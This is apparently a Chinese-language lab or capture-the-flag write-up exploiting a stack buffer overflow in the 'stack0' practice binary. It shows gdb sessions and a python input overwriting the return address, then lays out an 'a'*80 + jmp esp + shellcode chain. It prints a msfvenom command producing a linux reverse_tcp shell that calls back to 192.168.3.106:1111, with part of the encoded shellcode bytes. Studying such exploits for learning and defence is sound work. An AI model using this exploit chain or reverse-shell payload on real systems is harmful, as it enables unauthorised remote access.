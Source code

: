```
gdb ./stack0
b 18
si
si

```

此时程序将执行到达main函数帧中的ret,再si将跳转到main_ret处,可通过以下验证

```
-------------output:--------------
15        } else {
16            printf("Try again?\n");
   0x08048427 <+51>:    movl   $0x8048529,(%esp)
   0x0804842e <+58>:    call   0x804832c <puts@plt>

17        }
18      }
   0x08048433 <+63>:    leave  
---Type <return> to continue, or q <return> to quit---
=> 0x08048434 <+64>:    ret    

End of assembler dump.
(gdb) si
0x62626262 in ?? ()
--------------end-----------------

```

同样可以发现main_ret被溢出为0x62626262(bbbb)

检验一下：

```
python -c 'print "a"*80+"bbcc"' | ./stack0
------------------output:--------------------
[New LWP 11928]
Core was generated by `./stack0'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x63636262 in ?? ()
---------------------end---------------------

```

最后的"bbcc"由于在内存中依次由上到下存放在栈空间中（在一个栈单元中可放下4个字符，在一个栈单元中从左到右存放）,而栈中由上到下或一个栈单元中的从左到右都是由内存低地址到内存高地址排列，所以bbcc(0x62626363)被翻译成eip=0x63636262

为了溢出反弹一个shell，用msf生成shellcode,并构造成如下输入链来触发shellcode的执行

"a"*80+addr(jmp esp)+shellcode

其中shellcode代码由msf生成，输出为py版本，反弹ip设为kali的ip:192.168.3.106,port为1111

```
2004 ~  » msfvenom -p linux/x64/shell/reverse_tcp LHOST=192.168.3.106 LPORT=1111 -e x86/shikata_ga_nai -b "\x00" --platform linux -f py 
-------------------------output:-----------------------
No Arch selected, selecting Arch: x86_64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
buf =  ""
buf += "\xba\x31\x6f\x3c\x05\xd9\xca\xd9\x74\x24\xf4\x5d\x33"
buf += "\xc9\xb1\x12\x31\x55\x12\x83\xc5\x04\x03\x64\x61\xde"
buf += "\xf0\xce\x4c\xe1\x91\xc7\xf6\x84\xd0\xc7\x4e\x3e\xca"
buf += "\xaa\x7f\x89\x99\x16\xc1\x53\xec\x51\xce\x66\x46\x0d"
```